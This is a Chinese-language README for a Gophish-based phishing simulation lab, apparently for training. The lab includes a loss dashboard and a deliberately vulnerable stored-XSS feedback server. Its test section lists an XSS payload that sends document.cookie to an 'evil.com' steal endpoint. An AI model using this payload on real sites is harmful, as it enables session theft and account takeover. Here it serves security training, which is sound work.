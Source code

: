 # 🎯 Gophish 钓鱼平台 + 钓后仿真系统

基于 Gophish 的完整钓鱼攻击和钓后仿真系统，包含多个漏洞服务器和可视化损失评估仪表板。

## 🚀 快速开始

### 1. 系统要求
- Python 3.7+
- macOS/Linux/Windows
- 网络连接

### 2. 安装依赖
```bash
pip3 install flask requests
```

### 3. 启动系统
```bash
# 方法1: 使用测试脚本（推荐）
python3 test_servers.py

# 方法2: 使用启动脚本
chmod +x start_simulation.sh
./start_simulation.sh
```

## 📋 系统组件

### 🎣 Gophish 钓鱼平台
- **端口**: 3333 (HTTPS)
- **功能**: 钓鱼邮件发送、统计分析
- **访问**: https://localhost:3333
- **默认账户**: admin / (系统生成密码)

### 💰 损失评估仪表板
- **端口**: 5000
- **功能**: 实时攻击统计、损失评估、风险分析
- **访问**: http://localhost:5000
- **特性**: 
  - 实时攻击数据可视化
  - 经济损失估算
  - 风险等级评估
  - 攻击时间线分析

### 🚨 XSS 漏洞服务器
- **端口**: 5001
- **模拟**: 企业内部反馈系统
- **漏洞**: 存储型XSS漏洞
- **访问**: http://localhost:5001
- **测试方法**: 
  ```html
  <script>alert('XSS攻击成功！')</script>
  <script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
  ```
